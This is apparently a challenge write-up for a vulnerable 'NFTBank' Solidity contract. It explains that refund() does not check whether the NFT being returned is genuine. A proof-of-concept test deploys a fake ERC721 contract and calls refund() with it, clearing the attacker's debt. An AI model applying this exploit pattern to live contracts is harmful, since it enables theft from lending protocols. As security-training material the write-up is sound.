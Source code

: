 # NFTBank

## Description

`refund()` function lacks the check if anyone is adding a fake NFT.
 
An Attacker can create a fake NFT contract and call the `refund` with the new NFT deails which clear out his debt.

Attack Steps:

1. Attackers creates the newNFT and mint 1 token for himself

2. Attckers then approves the bank to rent.

3. Attackers then call the `refund()` funciton with it's collection and id of new NFT he just created.

In refund function, this for loop received the wrong address and id, the default valueu of `rentedNFTs` be 0, which is of `CryptoKitties`

```
for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
```



---

## POC:

[Test File](NFTBank.t.sol)

```solidity

// NOTE - add this after  CryptoKitties contract
contract CryptoDoggies is ERC721("CryptoDoggies", "DOG"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

        //solution  

        CryptoDoggies dog;
        dog = new CryptoDoggies(); // Created a new instance of Attacker's fake NFT

        dog.mint(attacker, 2); // Attacke's mint 1 NFT
        dog.approve(address(bank), 2); //Attackers permites the bank to transact on behalf of him

        bank.refund(address(dog), 2); //Attacker calling for the refund
        // now attack cleared his debt and also holding the NFT
```
